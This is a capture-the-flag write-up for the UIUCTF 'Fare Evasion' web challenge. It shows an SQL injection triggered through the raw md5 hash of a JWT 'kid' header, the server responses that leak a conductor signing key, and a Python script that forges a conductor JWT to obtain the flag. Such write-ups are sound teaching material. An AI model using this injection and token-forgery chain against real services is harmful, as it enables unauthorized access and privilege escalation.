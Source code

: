 # Fare Evasion
SIGPwny Transit Authority needs your fares, but the system is acting a tad odd. We'll let you sign your tickets this time!

## Writeup

```js
async function pay() {
      // i could not get sqlite to work on the frontend :(
      /*
        db.each(`SELECT * FROM keys WHERE kid = '${md5(headerKid)}'`, (err, row) => {
        ???????
       */
      const r = await fetch("/pay", { method: "POST" });
      const j = await r.json();
      document.getElementById("alert").classList.add("opacity-100");
      // todo: convert md5 to hex string instead of latin1??
      document.getElementById("alert").innerText = j["message"];
      setTimeout(() => { document.getElementById("alert").classList.remove("opacity-100") }, 5000);
    }
```

```json
{"message":"Key isn't passenger or conductor. Please sign your own tickets. \nhashed _\bR\u00f2\u001es\u00dcx\u00c9\u00c4\u0002\u00c5\u00b4\u0012\\\u00e4 secret: a_boring_passenger_signing_key_?","success":false}
```

Send **md5** hash of **RòsÜxÉÄÅ´\ä** string and we will receive:

```json
{"message":"near \"\u00ef\u00deV3Z\u008f\": syntax error","success":false}
```

We need to construct an md5 that generate a sqli, we can try with this text:

```
DyrhGOYP0vxI2DtH8y
```

And in the output will appear the conductor key:

```json
{"message":"Sorry passenger, only conductors are allowed right now. Please sign your own tickets. \nhashed \u00f4\u008c\u00f7u\u009e\u00deIB\u0090\u0005\u0084\u009fB\u00e7\u00d9+ secret: conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e\nhashed _\bR\u00f2\u001es\u00dcx\u00c9\u00c4\u0002\u00c5\u00b4\u0012\\\u00e4 secret: a_boring_passenger_signing_key_?","success":false}
```

We can now use it to take the flag:

```python
#!/usr/bin/python3
import requests
import jwt
import hashlib

url = f'https://fare-evasion.chal.uiuc.tf'

def pay(s, encoded_jwt):
    req = s.post(url + '/pay', cookies = {'access_token': encoded_jwt})
    return req.text

if __name__ == '__main__':
    s = requests.Session()
    passenger_secret = "a_boring_passenger_signing_key_?"
    hashed = 'DyrhGOYP0vxI2DtH8y' # https://github.com/gen0cide/hasherbasher
    conductor_secret = 'conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e'
    
    secret = conductor_secret
    encoded_jwt = jwt.encode({'type': 'conductor'}, secret, algorithm="HS256", headers={'kid': hashed})

    print(pay(s, encoded_jwt))
```

The flag is:

```json
{"message":"Conductor override success. uiuctf{sigpwny_does_not_condone_turnstile_hopping!}","success":true}
```